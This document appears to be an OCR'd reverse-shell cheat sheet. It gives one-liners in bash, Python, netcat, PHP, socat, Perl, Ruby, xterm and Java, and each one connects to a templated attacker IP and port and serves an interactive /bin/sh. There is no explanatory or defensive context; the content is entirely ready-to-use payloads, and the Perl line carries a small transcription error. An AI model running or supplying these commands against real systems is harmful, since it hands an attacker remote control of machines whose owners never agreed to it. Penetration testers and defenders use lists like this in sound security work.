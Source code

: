 ### BASH:
`$ bash -i >& /dev/tcp/{ip}/{port} 0>&1`
### PYTHON:
`$ python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("{ip}",{port}));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`
### NETCAT:
`$ nc -e /bin/sh {ip} {port}`
### PHP:
`$ php -r '$sock=fsockopen("{ip}",{port});exec("/bin/sh -i <&3 >&3 2>&3");'`
### SOCAT:
`$ socat tcp-connect:{ip}:{port} system:/bin/sh`
### PERL:
`$ perl -e 'use Socket;$i="{ip}";$p={port};socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">$S");exec("/bin/sh -i");};'`
### RUBY:
`$ ruby -rsocket -e'f=TCPSocket.open("{ip}",{port}).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'`
### XTERM:
`$ xterm -display {ip}:{port}`
### JAVA:
`$ r = Runtime.getRuntime()`
`$ p = r.exec(["/bin/bash","-c","exec 5< >/dev/tcp/{ip}/{port};cat <& 5 | while read line; do \$line 2>&5 >&5; done"] as String[])`
`$ p.waitFor()`